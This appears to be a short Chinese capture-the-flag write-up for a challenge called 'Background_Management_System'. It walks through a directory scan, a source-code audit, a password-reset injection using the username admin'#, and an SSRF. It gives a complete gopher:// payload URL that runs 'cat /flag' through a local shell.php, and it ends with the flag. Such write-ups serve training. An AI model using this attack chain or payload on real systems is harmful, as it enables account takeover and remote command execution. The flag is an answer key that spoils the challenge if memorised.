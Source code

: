 # Background_Management_System

## 思路分析

> 依次对http://61.147.171.105:55457/xinan/和http://61.147.171.105:55457/xinan/public进行目录扫描,发现存在http://61.147.171.105:55457/xinan/public/www.zip存,下载网站源码进行代码审计,发现一个shell.php,但是只能本地访问,猜测要利用ssrf漏洞.登陆和注册处对可控参数进行了控制,无法注入,更新密码处,未对用户名进行过滤,存在任意用户修改漏洞.注册一个admin'#的用户,修改密码后,用admin用户登陆后在个人中心发现一个php文件,访问该文件,发现存在ssrf漏洞,就和前面形成了呼应.最终执行命令,获取flag

## payload

> http://61.147.171.105:55457/xinan/public/55ceedfbc97b0a81277a55506c34af36.php?url=gopher://127.0.0.1:80/_GET%20/xinan/public/shell.php%253Fcmd=cat%2B/flag

## flag

> flag{4e8f794089b6b4ef55cd0399dca1433c}